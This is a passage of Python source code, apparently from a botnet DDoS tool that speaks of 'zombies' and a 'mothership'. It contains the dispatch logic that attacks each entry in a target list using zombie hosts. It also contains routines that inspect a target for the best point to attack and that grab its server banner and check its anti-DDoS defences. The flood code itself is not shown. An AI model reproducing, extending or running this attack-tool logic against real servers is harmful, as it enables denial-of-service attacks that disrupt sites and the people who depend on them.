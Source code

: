                 print("")
                c = 0
                for target in targets:
                    if target == "":
                        c = c + 1
                    else:
                        self.num_target_list = self.num_target_list + 1
                if c == len(targets):
                    print("\n[Error] [AI] You haven't any valid [Target] to be extracted from: "+str(options.target_list)+" -> [Exiting!]\n")
                    return # end of code block dedicated to: Guido van Rossum [23/12/2018]
                else:
                    for target in targets:
                        self.options.target = self.parse_url_encoding(target) # parse for proper url encoding
                        target = self.options.target
                        print('='*55 + "\n")
                        print("[Info] [AI] Aiming: " + str(target) + " -> [OK!]\n")
                        print("="*55)
                        attack = self.attacking(zombies, target)
                        self.update_missions_stats() # update mothership missions stats (each target counts)
            except Exception:
                print ("\n[Error] [AI] Something wrong attacking to multiple targets!\n")
                if DEBUG == True:
                    traceback.print_exc()

        # inspect target -> inspect target's components sizes
        if options.inspect:
            try:
                self.banner()
                print("\n[AI] Inspecting target for local resources... to find the best place to attack... SSssh!\n")
                print('='*22 + '\n')
                self.instance = Inspector(self) # instance main class for inspection operations
                inspection = self.instance.inspecting(options.inspect)
                self.update_missions_stats() # update mothership missions stats
            except Exception as e:
                print ("\n[Error] [AI] Something wrong inspecting... Not any object found!\n")
                if DEBUG == True:
                    traceback.print_exc()
                return #sys.exit(2)

        # abduct target -> examine target's webserver configuration (banner grabbing, anti-ddos, etc.)
        if options.abduction:
            try:
                self.banner()
                print("\n[AI] Abducting target to extract interesting information... Be patient!\n")
                print('='*22 + '\n')
                self.instance = Abductor(self) # instance main class for abduction operations
                abduction = self.instance.abducting(options.abduction)
                self.update_missions_stats() # update mothership missions stats
            except Exception as e:
                print ("\n[Error] [AI] Something wrong abducting... Not any data stream found!\n")
                if DEBUG == True:
                    traceback.print_exc()
                return #sys.exit(2)
